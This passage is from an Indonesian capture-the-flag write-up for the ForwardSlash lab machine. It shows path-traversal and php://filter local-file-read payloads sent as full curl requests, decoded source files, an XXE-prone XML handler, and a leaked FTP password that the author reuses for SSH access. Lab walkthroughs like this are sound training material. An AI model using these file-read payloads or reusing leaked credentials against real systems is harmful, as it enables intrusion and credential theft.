dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pain:x:1000:1000:pain:/home/pain:/bin/bash
chiv:x:1001:1001:Chivato,,,:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```

- ../../../../../../../../../etc/apache2/sites-available/000-default.conf

```apache2
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

- ../../../../../../../../../etc/apache2/sites-available/backup.forwardslash.htb.conf

```
# Place any notes or comments you have here
# It will make any customisation easier to understand in the weeks to come

# domain: backup.forwardslash.htb
# public: /var/www/backup.forwardslash.htb/

<VirtualHost *:80>

  # Admin email, Server Name (domain name) and any aliases
  ServerAdmin webmaster@forwardslash.htb
  ServerName  backup.forwardslash.htb
  ServerAlias backup.forwardslash.htb


  # Index file and Document Root (where the public files are located)
  #DirectoryIndex index.html index.php index
  DirectoryIndex welcome.php index.php
  DocumentRoot /var/www/backup.forwardslash.htb/


  # Custom log file locations
  LogLevel warn
  ErrorLog /var/log/apache2/error-backup.forwardslash.htb.log
  CustomLog /var/log/apache2/access-backup.forwardslash.htb.log combined

</VirtualHost>
```

Penulis menyadari bahwa 

- forwardslash.htb -> /var/www/html/
- backup.forwardslash.htb -> /var/www/backup.forwardslash.htb/

Lalu penulis mencoba mengambil file `/var/www/html/index.php` karena sebelumnya penulis merequest, `index.php` namun terkena blocking, Maka jika asumsi penulis jika ada sebuah filtername, Mengambil `/var/www/html/index.php` juga seharusnya tidak bisa. Namun ternyata reponsenya valid.

```php
<?php
//if ($_SERVER['SERVER_NAME'] !== "forwardslash.htb") {
if ($_SERVER['SERVER_NAME'] !== "forwardslash.htb") {
        header("Location: http://forwardslash.htb");
        exit;
}
?>

//dipotong karena terlalu panjang.
```

Nah dari sini penulis mulai menyadari lagi, bahwa yang diblock bukanlah nama filenya, Namun isi dari kontennya. Maka dari itu menulis mulai mencoba menggunakan `php wrapper` untuk memanipulasi isi dari responsenya dengan mengconvert menggunakan.

```
php://filter/convert.base64-encode/resource=index.php
```

dan mendapatkan hasil base64 encode yang valid.

```sh
curl "http://backup.forwardslash.htb/profilepicture.php" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8" -H "Accept-Language: id,en-US;q=0.7,en;q=0.3" -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://backup.forwardslash.htb" -H "Connection: keep-alive" -H "Referer: http://backup.forwardslash.htb/profilepicture.php" -H "Cookie: PHPSESSID=f7j7mmjjk2php0nke28n38upr5" -H "Upgrade-Insecure-Requests: 1" --data "url=php://filter/convert.base64-encode/resource=index.php"
```

Response

```
dTw/cGhwCi8vIEluaXRpYWxpemUgdGhlIHNlc3Npb24Kc2Vzc2lvbl9zdGFydCgpOwoKLy8gQ2hlY2sgaWYgdGhlIHVzZXIgaXMgbG9nZ2VkIGluLCBpZiBub3QgdGhlbiByZWRpcmVjdCBoaW0gdG8gbG9naW4gcGFnZQppZighaXNzZXQoJF9TRVNTSU9OWyJsb2dnZWRpbiJdKSB8fCAkX1NFU1NJT05bImxvZ2dlZGluIl0gIT09IHRydWUpewogICAgaGVhZGVyKCJsb2NhdGlvbjogbG9naW4ucGhwIik7CiAgICBleGl0Owp9IGVsc2UgewoJaGVhZGVyKCJsb2NhdGlvbjogLyIpOwoJZXhpdCgpOwp9Cj8+Cgo8IURPQ1RZUEUgaHRtbD4KPGh0bWwgbGFuZz0iZW4iPgo8aGVhZD4KICAgIDxtZXRhIGNoYXJzZXQ9IlVURi04Ij4KICAgIDx0aXRsZT5XZWxjb21lPC90aXRsZT4KICAgIDxsaW5rIHJlbD0ic3R5bGVzaGVldCIgaHJlZj0iYm9vdHN0cmFwLmNzcyI+CiAgICA8c3R5bGUgdHlwZT0idGV4dC9jc3MiPgogICAgICAgIGJvZHl7IGZvbnQ6IDE0cHggc2Fucy1zZXJpZjsgdGV4dC1hbGlnbjogY2VudGVyOyB9CiAgICA8L3N0eWxlPgo8L2hlYWQ+Cjxib2R5PgogICAgPGRpdiBjbGFzcz0icGFnZS1oZWFkZXIiPgogICAgICAgIDxoMT5IaSwgPGI+PD9waHAgZWNobyBodG1sc3BlY2lhbGNoYXJzKCRfU0VTU0lPTlsidXNlcm5hbWUiXSk7ID8+PC9iPi4gV2VsY29tZSB0byBvdXIgc2l0ZS48L2gxPgogICAgPC9kaXY+CiAgICA8cD4KICAgICAgICA8YSBocmVmPSJyZXNldC1wYXNzd29yZC5waHAiIGNsYXNzPSJidG4gYnRuLXdhcm5pbmciPlJlc2V0IFlvdXIgUGFzc3dvcmQ8L2E+CiAgICAgICAgPGEgaHJlZj0ibG9nb3V0LnBocCIgY2xhc3M9ImJ0biBidG4tZGFuZ2VyIj5TaWduIE91dCBvZiBZb3VyIEFjY291bnQ8L2E+PGJyPjxicj4KCTxhIGhyZWY9ImhvZi5waHAiIGNsYXNzPSJidG4gYnRuLXdhcm5pbmciPkhhbGwgb2YgZmFtZTwvYT4KCTxhIGhyZWY9InByb2ZpbGVwaWN0dXJlLnBocCIgY2xhc3M9ImJ0biBidG4tZGFuZ2VyIj5DaGFuZ2UgWW91ciBQcm9maWxlIFBpY3R1cmU8L2E+CiAgICA8L3A+CjwvYm9keT4KPC9odG1sPgo=
```
Jika didecode juga akan valid.

```php
<?php
// Initialize the session
session_start();

// Check if the user is logged in, if not then redirect him to login page
if(!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true){
    header("location: login.php");
    exit;
} else {
	header("location: /");
	exit();
}
?>

//dipotong karena terlalu panjang.
```

Singkat cerita penulis mencoba semua file, Dan tidak ada yang menarik atau tidak ada jalan masuk menuju mesinnnya. Namun penulis mendapatkan file yang vulnrable yaitu `profilepicture.php` dan `api.php`.


- profilepicture.php
```php
<?php
// Initialize the session
session_start();

// Check if the user is logged in, if not then redirect him to login page
if(!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true){
    header("location: login.php");
    exit;
}
/*
if (isset($_GET['success'])){
	echo <h1>Profile Picture Change Successfully!</h1>;
	exit;
}
*/
?>
//dipotong karena terlalu panjang
<?php
if (isset($_POST['url'])) {
        $url = 'http://backup.forwardslash.htb/api.php';
        $data = array('url' => $_POST['url']);

        $options = array(
                'http' => array(
                        'header'  => "Content-type: application/x-www-form-urlencoded\r\n",
                        'method'  => 'POST',
                        'content' => http_build_query($data)
                )
        );
        $context = stream_context_create($options);
        $result = file_get_contents($url, false, $context);
        echo $result;
	exit;
}
?>
```

- api.php

```php
<?php

session_start();

if (isset($_POST['url'])) {

	if((!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true) && $_SERVER['REMOTE_ADDR'] !== "127.0.0.1"){
		echo "User must be logged in to use API";
		exit;
	}

	$picture = explode("-----output-----<br>", file_get_contents($_POST['url']));
	if (strpos($picture[0], "session_start();") !== false) {
		echo "Permission Denied; not that way ;)";
		exit;
	}
	echo $picture[0];
	exit;
}
?>
<!-- TODO: removed all the code to actually change the picture after backslash gang attacked us, simply echos as debug now -->
```

Seperti asumsi penulis benar, Fitur menggunakan `file_get_contents` dan melakukan filter `content`.


Dikarenakan penulis stuck tidak tau harus mengambil file mana lagi, Penulis melihat kembali hasil `dirsearch` yaitu ada satu dir yang terlewat yaitu `dev`. Berikut tampilannya jika dibuka.


Seperti terlihat, Kita tidak boleh melakukan requests, Penulis sempat berfikir melakukan bypass dengan menghidupkan header `X-FORWARDED-FOR` Seperti berikut. Namun tetap tidak berhasil.




Karena saya ingat saya punya aksses untuk decode file, Lalu saya memutuskan mengambil filenya dari curl. Seperti berikut.

```sh
curl "http://backup.forwardslash.htb/profilepicture.php" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8" -H "Accept-Language: id,en-US;q=0.7,en;q=0.3" -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://backup.forwardslash.htb" -H "Connection: keep-alive" -H "Referer: http://backup.forwardslash.htb/profilepicture.php" -H "Cookie: PHPSESSID=f7j7mmjjk2php0nke28n38upr5" -H "Upgrade-Insecure-Requests: 1" --data "url=php://filter/convert.base64-encode/resource=dev/index.php"
```

dan mendapatkan hasil yang saya butuhkan.

```php
<?php
//include_once ../session.php;
// Initialize the session
session_start();

if((!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true || $_SESSION['username'] !== "admin") && $_SERVER['REMOTE_ADDR'] !== "127.0.0.1"){
    header('HTTP/1.0 403 Forbidden');
    echo "<h1>403 Access Denied</h1>";
    echo "<h3>Access Denied From ", $_SERVER['REMOTE_ADDR'], "</h3>";
    //echo "<h2>Redirecting to login in 3 seconds</h2>"
    //echo '<meta http-equiv="refresh" content="3;url=../login.php" />';
    //header("location: ../login.php");
    exit;
}
?>
<html>
	<h1>XML Api Test</h1>
	<h3>This is our api test for when our new website gets refurbished</h3>
	<form action="/dev/index.php" method="get" id="xmltest">
		<textarea name="xml" form="xmltest" rows="20" cols="50"><api>
    <request>test</request>
</api>
</textarea>
		<input type="submit">
	</form>

</html>

<!-- TODO:
Fix FTP Login
-->

<?php
if ($_SERVER['REQUEST_METHOD'] === "GET" && isset($_GET['xml'])) {

	$reg = '/ftp:\/\/[\s\S]*\/\"/';
	//$reg = '/((((25[0-5])|(2[0-4]\d)|([01]?\d?\d)))\.){3}((((25[0-5])|(2[0-4]\d)|([01]?\d?\d))))/'

	if (preg_match($reg, $_GET['xml'], $match)) {
		$ip = explode('/', $match[0])[2];
		echo $ip;
		error_log("Connecting");

		$conn_id = ftp_connect($ip) or die("Couldn't connect to $ip\n");

		error_log("Logging in");

		if (@ftp_login($conn_id, "chiv", 'N0bodyL1kesBack/')) {

			error_log("Getting file");
			echo ftp_get_string($conn_id, "debug.txt");
		}

		exit;
	}

	libxml_disable_entity_loader (false);
	$xmlfile = $_GET["xml"];
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$api = simplexml_import_dom($dom);
	$req = $api->request;
	echo "-----output-----<br>\r\n";
	echo "$req";
}

function ftp_get_string($ftp, $filename) {
    $temp = fopen('php://temp', 'r+');
    if (@ftp_fget($ftp, $temp, $filename, FTP_BINARY, 0)) {
        rewind($temp);
        return stream_get_contents($temp);
    }
    else {
        return false;
    }
}

?>

```


Bagian yang paling menarik adalah 


```php
if (@ftp_login($conn_id, "chiv", 'N0bodyL1kesBack/')) {
	error_log("Getting file");
	echo ftp_get_string($conn_id, "debug.txt");
}
```

Stuktur function `ftp_login` adalah `ftp_login(koneksi, user, pass)`. Akhirnya setelah perjalanan panjang, Kita mendapatkan user ssh login yang pertama.


### Getting started into Shell Jouney


Login ssh dengan menggunakan user `chiv` yang telah ditemukan.

```sh
ssh chiv@forwardslash.htb
```

Dan masukan passwordnya adalah `N0bodyL1kesBack/`




#### Recon manual

#### Recon menggunakan Script LSE

